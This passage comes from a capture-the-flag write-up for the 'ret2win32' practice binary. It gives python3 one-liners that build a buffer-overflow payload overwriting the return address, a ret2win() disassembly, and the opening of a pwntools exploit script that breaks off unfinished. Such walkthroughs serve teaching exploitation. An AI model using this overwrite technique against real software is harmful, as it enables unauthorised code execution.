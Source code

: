 <pre><code><strong>python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xad\x85\x04\x08')"  > payload
</strong></code></pre>

**Send payload to target binary:**

```
./ret2win32 < payload
```

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption><p>How cool is that? Now, let's get that flag.</p></figcaption></figure>

**Utilizing the similar method above, let's grab the address of `ret2win()`:**

```
disass ret2win 
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   ebp
```

* `0x0804862c`
* Placing in little-endian format for our payload

```
\x2c\x86\x04\x08
```

**Utilizing python3, we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x2c\x86\x04\x08')"  > payload
```

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automated Exploitation with pwntools

`exploit.py`:

```python
from pwn import *

# SETUP

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
         return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Target binary
exe = './ret2win32'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

```